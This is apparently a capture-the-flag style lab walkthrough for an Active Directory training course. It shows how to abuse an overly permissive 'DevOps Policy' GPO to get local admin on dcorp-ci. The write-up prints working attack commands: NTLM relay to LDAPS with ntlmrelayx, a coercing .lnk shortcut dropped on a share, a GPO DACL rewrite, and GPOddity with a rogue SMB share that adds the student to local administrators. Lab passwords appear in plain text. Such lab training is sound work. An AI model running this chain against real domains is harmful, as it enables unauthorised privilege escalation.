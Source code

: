 ```yaml
---
description: Learning Object 6
icon: vial
---
```


# 6 - LO 6️

## Tasks



1 - Abuse an overly permissive Group Policy to get admin access on dcorp-ci.

Flag 9 \[Student VM] - Name of the Group Policy attribute that is modified 🚩



## Solutions

### 1 - Abuse an overly permissive Group Policy to get admin access on dcorp-ci.

Start InviShell and PowerView

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Powerview.ps1
```

and check info regarding GPO for DCORP-CI

```powershell
Get-DomainGPO -ComputerIdentity DCORP-CI
```

```powershell
Exception calling "FindAll" with "0" argument(s): "There is no such object on the server.
"

flags                    : 0
displayname              : DevOps Policy
gpcmachineextensionnames : [{35378EAC-683F-11D2-A89A-00C04FBBCFA2}{D02B1F72-3407-48AE-BA88-E8213C6761F1}][{827D319E-6EAC-11D2-A4EA-00C04F79F83A}{803E14A0-B4FB-11D0-A0D0-00A0C90F574B}]
whenchanged              : 12/24/2024 7:09:01 AM
versionnumber            : 3
name                     : {0BF8D01C-1F62-4BDC-958C-57140B67D147}
cn                       : {0BF8D01C-1F62-4BDC-958C-57140B67D147}
usnchanged               : 296496
dscorepropagationdata    : {12/18/2024 7:31:56 AM, 1/1/1601 12:00:00 AM}
objectguid               : fc0df125-5e26-4794-93c7-e60c6eecb75f
gpcfilesyspath           : \\dollarcorp.moneycorp.local\SysVol\dollarcorp.moneycorp.local\Policies\{0BF8D01C-1F62-4BDC-958C-57140B67D147}
distinguishedname        : CN={0BF8D01C-1F62-4BDC-958C-57140B67D147},CN=Policies,CN=System,DC=dollarcorp,DC=moneycorp,DC=local
whencreated              : 12/18/2024 7:31:22 AM
showinadvancedviewonly   : True
usncreated               : 293100
gpcfunctionalityversion  : 2
instancetype             : 4
objectclass              : {top, container, groupPolicyContainer}
objectcategory           : CN=Group-Policy-Container,CN=Schema,CN=Configuration,DC=moneycorp,DC=local
```

It appartains to DevOps Policy, we can confirm it using `Get-DomainGPO -Identity 'DevOps Policy'` command.

Now, we need to run ntlmrelayx (regarding impacket tool) on windows machine (using **wsl.exe**), to relay the LDAP service on the DC: `sudo ntlmrelayx.py -t ldaps://<IP_DC> -wh <IP_VM> --http-port '80,8080' -i --no-smb-server`

{% hint style="info" %}
wsl psw is: WSLToTh3Rescue!
{% endhint %}

* I obtain DC's IP pinging it `ping DOLLARCORP.MONEYCORP.LOCAL` -> 172.16.2.1

```bash
sudo ntlmrelayx.py -t ldaps://172.16.2.1 -wh 172.16.100.67 --http-port '80,8080' -i --no-smb-server
```

<figure><img src="../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

Now we need to establish the authentication on student machine, go there and create a Shortcut that connects to the ntlmrelayx listener:

* Go to C:\AD\Tools -> Right Click -> New -> Shortcut. Copy the following command in the Shortcut location -> Next and Save it as _studentx.lnk_

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command "Invoke-WebRequest -Uri 'http://172.16.100.67' -UseDefaultCredentials"
```

<figure><img src="../../.gitbook/assets/image (145).png" alt=""><figcaption></figcaption></figure>

Copy the studentx.lnk script to \\\dcorp-ci\AI

```powershell
xcopy C:\AD\Tools\studentx.lnk \\dcorp-ci\AI
```

Run it with double click and we establish the connection:

<figure><img src="../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

Now, we need to connect to this Ldap shell using `nc 127.0.0.1 11000` and assign it permissions regarding DevOps GPO: `{0BF8D01C-1F62-4BDC-958C-57140B67D147}`, do it using a new wsl shell:

```powershell
write_gpo_dacl student867 {0BF8D01C-1F62-4BDC-958C-57140B67D147}
```

<figure><img src="../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

Stop the ldap shell and ntlmrelayx using Ctrl + C.

Now, we need to run the GPOddity command to create the new template:

<pre class="language-bash"><code class="lang-bash"><strong>cd /mnt/c/AD/Tools/GPOddity
</strong><strong>sudo python3 gpoddity.py --gpo-id '0BF8D01C-1F62-4BDC-958C-57140B67D147' --domain 'dollarcorp.moneycorp.local' --username 'student867' --password 'Ld7bTFyEd7Gc7UWn' --command 'net localgroup administrators student867 /add' --rogue-smbserver-ip '172.16.100.67' --rogue-smbserver-share 'std687-gp' --dc-ip '172.16.2.1' --smb-mode none
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (132).png" alt=""><figcaption></figcaption></figure>

Keep it running, meanwhile open another wsl shell and create and share the std687-gp directory:

```bash
mkdir /mnt/c/AD/Tools/std687-gp
cp -r /mnt/c/AD/Tools/GPOddity/GPT_Out/* /mnt/c/AD/Tools/std687-gp
```

Great, now open a new windows shell as administrator to create a share (std687-gp) ad assign privileges for everyone:&#x20;

```powershell
net share std687-gp=C:\AD\Tools\std687-gp /grant:Everyone,Full
icacls "C:\AD\Tools\std867-gp" /grant Everyone:F /T
```

<div align="left"><figure><img src="../../.gitbook/assets/image (134).png" alt=""><figcaption></figcaption></figure></div>

<div align="left"><figure><img src="../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure></div>

Now, we can verify if the gPCfileSysPath has been modified for the DevOps Policy running this command:

<figure><img src="../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>

The update for this policy is configured to be every 2 minutes in the lab and after waiting for 2 minutes, student867 should be added to the local administrators group on dcorp-ci:

```powershell
winrs -r:dcorp-ci cmd /c "set computername && set username"
```

<figure><img src="../../.gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

### Flag 9 \[Student VM] - Name of the Group Policy attribute that is modified 🚩

The GPO attributed modified on DevOps Policy is:

<figure><img src="../../.gitbook/assets/image (135).png" alt=""><figcaption></figcaption></figure>
